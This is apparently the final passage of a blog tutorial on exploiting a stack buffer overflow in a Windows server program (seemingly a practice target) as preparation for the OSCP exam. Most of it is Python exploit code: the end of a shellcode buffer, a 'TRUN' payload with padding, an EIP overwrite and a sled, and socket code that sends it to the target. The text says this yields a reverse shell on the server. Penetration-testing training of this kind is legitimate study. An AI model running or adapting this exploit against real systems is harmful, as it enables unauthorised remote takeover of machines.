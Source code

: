 ```py        
buf += b"\xf3\x93\xc4\x7a\xe9\x03\x2a\x51\xa9\x24\xc9\x73"
buf += b"\xc4\xcc\x54\x16\x65\x91\x66\xcd\xaa\xac\xe4\xe7"
buf += b"\x52\x4b\xf4\x82\x57\x17\xb2\x7f\x2a\x08\x57\x7f"
buf += b"\x99\x29\x72"


# Create buffer
buffering = b"TRUN /.:/" + b"A" * offset + eip + slad + buf

# Establish connection to target
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target_ip, target_port))

# Send buffer
sender = buffering
s.send(sender)

# Close connection
s.close()

```


Then running that exploit against the target give use reverse shell to that windows server.

![bo-060.gif](/assets/images/bo-060.gif)
**Figure 60** Reverse shell on windows server.

So now, we can end up that post, the first path to malware analysis is start on that buffer overflow, now you can also move forwarded for other attacks and get ready for the OSCP exam.
